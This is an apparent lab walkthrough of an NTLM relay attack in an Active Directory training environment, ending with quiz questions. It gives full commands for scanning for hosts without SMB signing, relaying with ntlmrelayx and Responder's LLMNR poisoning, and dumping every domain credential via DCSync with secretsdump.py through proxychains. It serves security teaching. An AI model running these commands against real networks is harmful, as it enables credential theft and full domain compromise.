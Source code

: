 #NTLM relay

An NTLM relay attack focuses on intercepting NTLM messages sent from a legitimate client trying to access some service, modifying them, and redirecting them to a legitimate server, impersonating the original client. This attack can be perpetrated by an attacker which positions themselves between the server and the client (MITM).

This MITM position can be reached through the use of the LLMNR poisoning attack, for example, also addressed in this lab.

In order to perpetrate this attack, two terminals will be used. In order to use two terminals, access the "Attacker2" machine and execute the following:
```
ip add add 192.168.122.35/24 dev eth0
ssh ubuntu@192.168.122.2
#introduce ubuntu's password (it's 'ubuntu')
```

Now, onto the attack. This attack will only work against machines that have SMB signing disabled. To check which machines are vulnerable, execute the following:
```
crackmapexec smb 192.168.122.0/24
```
It seems that both MEMBER and CAPTAIN have SMB signing disabled, both being susceptible to this attack.

To perpetrate this attack, first change the 'Responder.conf' file content to what can be seen in  [Responder.conf.txt](../multi-domain-attacks/Responder.conf.txt). Then, create a file named 'targets.txt' with the contents seen in  [targets.txt](../multi-domain-attacks/targets.txt). Now, in one terminal:

```
ntlmrelayx.py -tf targets.txt -socks -smb2support
#if you see some permission error upon running this script, do the following
readlink -f $(which python3)
sudo setcap cap_net_bind_service=+ep <output from the last command>
```
Once the ntlmrelayx.py script is listening for incoming NTLM messages, on a different terminal, start the Responder tool, which will poison legitimate clients through LLMNR, which will result in the client sending NTLM messages to the attacker.

```
#in the Responder directory
sudo -E python3 Responder.py -I ens3
```
After waiting for +/- 5 minutes, you should now have relayed authentication from both the Administrator and Hank accounts to the CAPTAIN DC. In order to verify relayed connections, run the following:
```
#in the ntlmrelayx terminal
socks
```
This command will output connections that can be used through a SOCKS5 proxy. You can now perform a DCSync attack using the Administrator connection, since this account has the necessary permissions to replicate DC data. With the DCSync, you retrieve every domain credential, compromising the domain. For this, use the secretsdump.py script from Impacket, along with the proxychains4 tool, in order to use the SOCKS proxy, and therefore, the Administrator's connection (Do not stop the ntlmrelayx script from running, stop the Responder tool and use that same terminal):
```
sudo -E proxychains4 $(which secretsdump.py) -no-pass -use-vss NORTH/Administrator@192.168.122.10
```

This way, just by relaying NTLM messages, an attacker is able to compromise the whole domain.

!!! question
    How was the attacker able to position itself between the client and the server? 
??? success "Answer"
    The MITM position was reached through LLMNR poisoning through the Responder tool. The Responder tool listens for legitimate LLMNR requests and issues poisoned replies to clients, indicating that the server that the client wants to access is in fact the attacker machine. This way the attacker can position itself between the client and server.
!!! question
    What's the role of the SOCKS proxy in this attack?
??? success "Answer"
    In this attack, the attacker establishes a SOCKS5 proxy on their own machine, bound to the context of the compromised session (Admin/Hank's) by means of a NTLM relay attack. Tools like proxychains then route traffic through this proxy, making it appear as if requests originate from the relayed host. This enables the attacker to directly access internal services—such as dumping credentials with secretsdump.py—using the victim’s authenticated session.